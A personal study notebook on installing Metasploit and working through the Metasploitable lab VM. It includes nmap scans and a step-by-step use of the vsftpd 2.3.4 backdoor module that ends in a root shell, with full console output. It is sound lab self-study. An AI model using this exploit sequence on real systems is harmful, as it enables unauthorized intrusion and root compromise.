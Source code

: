 ```yaml
---
title: Metasploit Framework & Metasploitable
updated_at: 2013-11-12 11:22am
---
```


# Metasploit Framework & Metasploitable

## Install on Crunchbang

### Set up Developer Environment

Most of what I do is from the offical [Rapid 7 Development Environment
Guide](https://github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment)

#### Install any missing deps:

```bash
sudo apt-get -y install \
build-essential zlib1g zlib1g-dev \
libxml2 libxml2-dev libxslt-dev locate \
libreadline6-dev libcurl4-openssl-dev git-core \
libssl-dev libyaml-dev openssl autoconf libtool \
ncurses-dev bison curl wget postgresql \
postgresql-contrib libpq-dev \
libapr1 libaprutil1 libsvn1 \
libpcap-dev git
```

Other steps that I am skipping for now:

* Install `rvm`
* Install `ruby-1.9.3`

### Clone Repo

I usually do this into some sort of bin/ directory. I'll use `~/bin` for now.

```bash
git clone https://github.com/rapid7/metasploit-framework.git
```

### Bundle 

```bash
rvm install ruby-1.9.3-p448
gem install bundler
cd bin/metasploit-framework
bundle install
```

### Start Metasploit console:

Just run `./msfconsole` to make sure that the whole thing working. Yay!

It should look something like this: 

```bash
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with
Metasploit Pro -- type 'go_pro' to launch it now.

       =[ metasploit v4.7.2-2013103001 [core:4.7 api:1.0]
+ -- --=[ 1215 exploits - 660 auxiliary - 189 post
+ -- --=[ 322 payloads - 30 encoders - 8 nops

msf >
```

## Usage

_Disclaimer: This is not the definitive Metasploit guide. For a more complete tutorial checkout [Metaploit Unleashed](http://www.offensive-security.com/metasploit-unleashed/Main_Page)_

My goal is to document some of my self study efforts into MSF against the Metasploitable VM.

### Metasploitable 

Metasploitable is an intentional vulnerable server image which can be used for educational or testing purposes. It's a pretty handy way to get oriented to the framework.

You can [download the Metasploitable VM here](http://www.offensive-security.com/metasploit-unleashed/Metasploitable).

### Scanning with MSF & Nmap

You can use `nmap` directly from inside msf. A simple scan of the Metasploitable VM looks like this:

```bash

msf > nmap 10.13.37.136
[*] exec: nmap 10.13.37.136


Starting Nmap 6.40 ( http://nmap.org ) at 2013-11-12 10:24 EST
Nmap scan report for 10.13.37.136
Host is up (0.0067s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
# Yikes!
```

_Note: If you configure MSF to use a database such as_ `postgres` _you can
feed the_ `nmap` _results directly in via the_ `db_nmap` _command. I will be
doing all of these exmaples without a databse connected._


#### Metasploitable Cases

##### FTP - `21/tcp`

Start with a more complete scan:

```bash

msf > nmap -sV  10.13.37.136 -p 21
[*] exec: nmap -sV  10.13.37.136 -p 21


Starting Nmap 6.40 ( http://nmap.org ) at 2013-11-12 10:34 EST
Nmap scan report for 10.13.37.136
Host is up (0.0018s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix
```

Next, try and search for a relevant exploit:

```bash
msf > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Oh good! It found something so lets configure it to use
`exploit/unix/ftp/vsftpd_234_backdoor`

```bash 
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) >
```

Set the remote (target) port and address and the local receiver host ip:

```bash
msf exploit(vsftpd_234_backdoor) > set RHOST = 10.13.37.136
RHOST => = 10.13.37.136
msf exploit(vsftpd_234_backdoor) > set RPORT = 21
RPORT => = 21
msf exploit(vsftpd_234_backdoor) > set LHOST 10.13.37.116
LHOST => 10.13.37.116
```

Search for aan appropriate payload. _Note: this is done from bash, not from
inside `msfconsole`.

```bash
$ msfpayload -l | grep unix
    ...
    ...
    cmd/unix/interact
    ...
    ...
```

Set the payload as well.

```bash
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/interact
```

Review settings ...

```bash
msf exploit(vsftpd_234_backdoor) > set

Module: unix/ftp/vsftpd_234_backdoor
====================================

  Name                   Value
  ----                   -----
  ...
  LHOST                  10.13.37.116
  PAYLOAD                cmd/unix/interact
  RHOST                  10.13.37.136
  RPORT                  21
  ...
```

... And exploit!

```bash
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (10.13.37.116:54285 -> 10.13.37.136:6200) at 2013-11-12 11:04:25 -0500

whoami
root
ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e0:62:7f
          inet addr:10.13.37.136  Bcast:10.13.37.255  Mask:255.255.255.0
          ...

exit

[*] 10.13.37.136 - Command shell session 2 closed.  Reason: Died from EOFError

```

Hurray!

